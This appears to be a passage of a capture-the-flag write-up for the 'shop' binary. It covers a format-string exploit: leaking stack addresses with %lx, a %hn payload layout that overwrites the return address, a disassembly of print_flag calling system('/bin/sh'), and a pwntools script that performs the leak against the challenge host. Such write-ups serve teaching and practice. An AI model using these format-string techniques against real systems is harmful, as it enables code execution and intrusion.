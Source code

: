 ```
55fa746ed2a0,0,7f4675aa28e0,0,
0,2400000,2,hex of "%{short:05}c%",
hex of "10$hnAAA",p64(target)
```

So `p64(target)` becomes the 10-th parameter. Printf will write `print_flag & 0xffff` to `rbp-8`, which belongs to the return address.

However, it does not work due to unaligned stack and it crashes in `system("/bin/sh")`. We can jump over `PUSH RBP` to fix it:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined print_flag()
             undefined         <UNASSIGNED>   <RETURN>
                             print_flag                                      XREF[3]:     Entry Point(*), 001020e0, 
                                                                                          001021a8(*)  
        00101199 55              PUSH       RBP
        0010119a 48 89 e5        MOV        RBP,RSP
        0010119d 48 8d 05        LEA        RAX,[s_/bin/sh_00102008]                         = "/bin/sh"
                 64 0e 00 00
        001011a4 48 89 c7        MOV        RDI=>s_/bin/sh_00102008,RAX                      = "/bin/sh"
        001011a7 e8 a4 fe        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff
        001011ac 90              NOP
        001011ad 5d              POP        RBP
        001011ae c3              RET
```

So we need to jump to `print_flag + 1`, not `print_flag`.

The whole attack script:

```python
from pwn import *

e = ELF("./shop")
p = remote("the-ingredient-shop-a2f5979a5fee57ae.challs.brunnerne.xyz", 443, ssl=True)
# p = e.process()

context.binary = e
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

# gdb.attach(p)
# pause()

p.recvuntil("shop")
p.sendline(b"%lx," * 50)
recv = p.recvuntil("butter").splitlines()[-3]
rbp = int(recv.split(b",")[41], 16)
print("rbp", hex(rbp))
addr = int(recv.split(b",")[42], 16)
print("return address", hex(addr))
base = addr - 0x1351
print("proc base", hex(base))
print_flag = base + e.symbols["print_flag"]
print("print_flag", hex(print_flag))

```